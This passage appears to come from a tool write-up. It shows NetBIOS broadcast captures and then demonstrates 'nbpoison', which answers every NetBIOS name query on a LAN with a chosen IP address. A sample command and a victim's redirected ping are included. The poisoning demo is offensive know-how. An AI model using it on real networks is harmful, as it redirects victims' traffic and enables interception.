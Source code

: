 ```
ADDITIONAL name registration: (NB:WORKGROUP      <1e|election>): IP: 192.168.1.42, TTL: 300000s
QUESTION name registration: (NB:TEST2          <03|messenger>)
ADDITIONAL name registration: (NB:TEST2          <03|messenger>): IP: 192.168.1.42, TTL: 300000s
QUESTION name registration: (NB:WORKGROUP      <1e|election>)
ADDITIONAL name registration: (NB:WORKGROUP      <1e|election>): IP: 192.168.1.42, TTL: 300000s
QUESTION name registration: (NB:TEST2          <03|messenger>)
ADDITIONAL name registration: (NB:TEST2          <03|messenger>): IP: 192.168.1.42, TTL: 300000s
QUESTION name registration: (NB:WORKGROUP      <1e|election>)
ADDITIONAL name registration: (NB:WORKGROUP      <1e|election>): IP: 192.168.1.42, TTL: 300000s
QUESTION name registration: (NB:TEST2          <03|messenger>)
ADDITIONAL name registration: (NB:TEST2          <03|messenger>): IP: 192.168.1.42, TTL: 300000s
QUESTION name registration: (NB:WORKGROUP      <1e|election>)
ADDITIONAL name registration: (NB:WORKGROUP      <1e|election>): IP: 192.168.1.42, TTL: 300000s
QUESTION name registration: (NB:TEST2          <03|messenger>)
ADDITIONAL name registration: (NB:TEST2          <03|messenger>): IP: 192.168.1.42, TTL: 300000s
```

Notice how it sends a bunch of 'release' broadcasts when it shuts down, then a bunch of 'register' broadcasts when it starts up, just as expected. Also note what a chatty protocol it is. All that traffic?

And here is a NetBIOS query from TEST1:

```
QUESTION query: (NB:DEMO           <00|workstation>)
QUESTION query: (NB:DEMO           <00|workstation>)
QUESTION query: (NB:DEMO           <00|workstation>)
```

Nice and simple!

But anyway, since we're seeing all the broadcasts, what's stopping us from answering them?

### Poisoning

And that brings me to the final tool in the nbtool packet: <tt>nbpoison</tt>. nbpoison will answer all NetBIOS queries with a chosen IP address. This includes:

- Computers on the LAN that aren't found
- Domains under 14 characters that can't be resolved by DNS (ie, mistyped URLs)
- Computers ont he LAN that ARE found, sometimes (it's a race, sometimes)

Here is an example of poisoning a local address:

```
$ sudo ./nbpoison -s 1.2.3.4
QUESTION query: (NB:DEMO           <00|workstation>)
(returning response with '1.2.3.4')
```

And here's the victim machine:

```
C:Documents and SettingsRon>ping DEMO

Pinging DEMO [1.2.3.4] with 32 bytes of data:

Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 1.2.3.4:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum =  0ms, Average =  0ms
```
